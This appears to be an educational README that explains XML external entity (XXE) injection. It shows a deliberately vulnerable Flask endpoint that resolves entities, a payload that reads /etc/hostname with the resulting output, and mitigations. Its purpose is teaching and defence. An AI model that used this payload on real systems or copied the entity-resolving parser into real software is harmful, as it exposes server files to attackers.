 <p align="center"> <img src="https://raw.githubusercontent.com/qeeqbox/xxe-injection/main/xxe-injection.png"></p>

A threat actor may interfere with an application's processing of extensible markup language (XML) data to view the content of a target's files

## Example #1
1. Threat actor sends a malicious request that contains a reference to an external entity (a system identifier)
2. The target's XML processor replaces the external entity with the content dereferenced by the system identifier 

## Code
#### Target Logic 
```py
...
@app.route("/parse_xml",methods = ['POST'])
def parse_xml():
    parser = etree.XMLParser(resolve_entities=True)
    root = etree.fromstring(request.files['xml'].read(), parser)
    response = make_response(etree.tostring(root), 200)
    response.mimetype = "text/plain"
    return response
...
```

#### Target-in
```xml
<?xml version="1.0" encoding="UTF-8"?>
<getLastName>John01</getLastName>
```

#### Target-Out
```
Jone Doe
```

#### Target-in
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE malicious [ <!ENTITY xxe SYSTEM "file:///etc/hostname"> ]>
<getInfo>&xxe;</getInfo>
```

#### Target-Out
```
usystem01
```

## Impact
High

## Names
- XXE injection
- XEE injection
- XML injection

## Risk
- Read data

## Redemption
- Secure processing
- Disable DTD and XML external entity

## ID
4b3566ce-3f7f-40d8-b882-09f59ca967b8

## References
- [wiki](https://en.wikipedia.org/wiki/XML_external_entity_attack)
